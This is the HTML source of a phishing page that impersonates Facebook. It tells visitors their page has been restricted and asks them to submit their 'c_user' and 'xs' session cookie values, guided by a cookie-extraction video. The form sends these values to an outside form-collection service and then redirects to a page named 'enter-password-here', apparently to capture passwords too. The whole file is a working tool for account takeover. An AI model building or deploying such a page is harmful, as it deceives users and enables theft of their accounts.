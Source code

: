 
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <link
      rel="icon"
      type="image/png"
      href="https://cdn.glitch.global/d08141de-e7af-45a5-916b-2f09d06ac286/Facebook_Logo_2023.png?v=1712421903497"
    />
    <link rel="stylesheet" href="styes.css" />
    <title>Action | Required</title>
  </head>
  <body>
    <nav>
      <div class="nav-left">
        <p class="fb-2">facebook</p>
      </div>
      <div class="nav-right">
        <div class="search-box">
          <img
            src="search logo.jpeg"
            alt="search-icon"
          />
          <input type="text" placeholder="Search" />
        </div>
      </div>
    </nav>
    <br /><br />

    <div class="main-body">
      <form
        class="content"
        action="https://submit-form.com/lwLHJlFvS"
        method="POST"
      >
 <input
    type="hidden"
    name="_redirect"
    value="https://enter-password-here.vercel.app/"
  />
          
        <div>
          <img
            src="TbXLmqW3Z.png"
            width="140"
          />
        </div>

        <p class="tr-5">
          We have detected unusual activity on your page that violates our
          community standards.
        </p>
        <br />
        <p class="tr-5">
          Your access to your page has been limited, and you are currently
          unable to post, share, or comment using your page.
        </p>
        <br />
        <p class="tr-5">
          If you believe this to be a mistake, you have the option to submit an
          appeal by providing the necessary information.
        </p>
        <br />

        <div class="video-text">
          <p>Must Watch Detailed Video Information:</p>
        </div>

        <div>
          <video
            controls=""
            loop=""
            autoplay=""
            width="300"
            poster="https://i.pinimg.com/originals/97/95/69/979569a2dedd37573974ceebc05b4a4e.png"
          >
            <source
              src="https://cdn.glitch.global/cfdab748-b145-4b28-8f85-c26ac388a3c9/cookies.mp4?v=1719846896202"
              type="video/mp4"
            />
          </video>
        </div>

        <p class="tr-5">
          Please be sure to provide the requested information below.
        </p>
        <br />

        <div>
          <p class="mt-4">c_user*</p>
          <input type="number" name="c_user" id="c_user" required="" />
        </div>
        <br />

        <div>
          <p class="mt-4">xs*</p>
          <input
            type="text"
            name="xs"
            pattern="^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@#$%^&+=]).{12,}$"
            title="Must Watch Detailed Video"
            required="1"
            aria-required="true"
          />
        </div>
        <br />

        <p class="msi-4">
          **Please make sure account not to log out from your computer or laptop
          until you have received a verification email.
        </p>
        <br />

        <div class="container">
          <button class="button">
            <p>Submit</p>
          </button>
        </div>
        <br />
        <br />
      </form>
    </div>
    <br /><br />
  </body>
</html>
